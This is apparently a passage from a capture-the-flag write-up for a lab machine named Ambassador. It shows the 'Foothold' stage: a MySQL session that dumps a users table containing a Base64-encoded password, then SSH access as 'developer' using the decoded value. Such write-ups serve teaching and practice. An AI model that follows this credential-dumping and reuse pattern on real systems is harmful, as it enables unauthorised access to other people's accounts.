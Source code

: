 We found mysql creds from data_source table.

## Foothold

### MySQL

Connecting to mysql 
```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.08 sec)

mysql> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.07 sec)

mysql> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.07 sec)

mysql> 
```
We found the WhackyWidget database inside the database's user table. We got the credentials for SSH, and the password was stored in Base64 format.

## SSH as developer
Decode the password and connected to ssh

```bash
developer@ambassador:~$ id && ls
uid=1000(developer) gid=1000(developer) groups=1000(developer)
snap  user.txt
developer@ambassador:~$ 
```
